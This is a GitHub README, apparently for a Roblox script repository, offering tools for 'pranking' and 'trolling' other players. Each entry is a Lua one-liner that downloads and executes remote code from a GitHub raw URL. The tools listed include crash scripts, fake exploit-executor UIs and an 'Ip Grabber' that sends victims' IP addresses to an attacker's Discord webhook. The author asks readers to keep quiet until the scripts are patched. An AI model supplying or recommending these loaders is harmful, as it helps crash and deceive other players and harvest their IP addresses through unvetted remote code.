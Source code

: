 # About
I'll be posting my scripts and if I put someone elses into this repository that means it's either my friends script or a revamp of their script and I'll be adding the information into the readme.

The scripts will be put into sections. The scripts I put into here are meant for pranking in irl and trolling.
Don't go around talking about this before they get patched 💀 No one want's scripts to get patched ;)

Contact me on discord (**folixx**) or twitter (**zxfolix**)
I honestly don't put effort on updating the readme, so don't expect me to add the info right away.

# Crash Script [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/universal.lua)


![crash](https://github.com/wtfplayer/redemption/assets/136761546/0a4cb2a3-5364-4c19-b013-eb98bb20982b)

# Crash Script UI (FIRST ONE) [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/crashscript1ui.lua)

![banui](https://github.com/wtfplayer/redemption/assets/136761546/925472f3-942f-4eb3-983a-42e412d383ca)

# Crash Script v2 [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)
In the 2nd version the script will execute after 10 seconds

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua"))()
```

[SOURCE OBFUSCATED V2](https://raw.githubusercontent.com/wtfplayer/redemption/main/universalv2.lua)


![nerds](https://github.com/wtfplayer/redemption/assets/136761546/852bf971-067c-4917-81b8-b05191a5ad1e)

# Position Finder [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/positionfinder.lua)

![positionfinder](https://github.com/wtfplayer/redemption/assets/136761546/b9953f50-d251-4f1c-8256-12012f4efe6d)

# Voidplate [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)
**Press E to teleport to the baseplate and press F to teleport to the voidplate** (Only works in literal baseplate)

**Credits to voidplate owner** - https://github.com/Raisincains/Scripts (If you don't know, the script I'm showing you is the revamp.)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/literalbaseplate.lua)

![voidplate](https://github.com/wtfplayer/redemption/assets/136761546/0c15e5d6-a1d8-4d31-9218-8310aee58bf9)

# Script Executor [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/scriptexecutor.lua)

![script (2)](https://github.com/wtfplayer/redemption/assets/136761546/f18a5942-9f39-4ab2-beec-a92bb7aefb12)

# Ip Grabber [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)
**Make sure to put a webhook to replace "url"** I didn't because I cant show my discord.

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/ipgrabber.lua)

![ipgrab](https://github.com/wtfplayer/redemption/assets/136761546/ba8c6f22-5a4e-4521-b86a-46561bb7de92)

# Krnl Ui [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlui.lua)

![2](https://github.com/wtfplayer/redemption/assets/136761546/831a5603-5ceb-4858-93d9-2516ee18dab5)

# Synapse Ui [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/synapseui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/synapseui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/synapseui.lua)

![3](https://github.com/wtfplayer/redemption/assets/136761546/3afceb98-d8a1-4a6c-80a7-4b7478d15d85)

# Krnl No Ui Execute [SOURCE](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua)

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua"))()
```

[SOURCE OBFUSCATED](https://raw.githubusercontent.com/wtfplayer/redemption/main/krnlnoui.lua)

**Owner's Roblox** - https://www.roblox.com/users/3784100047/profile
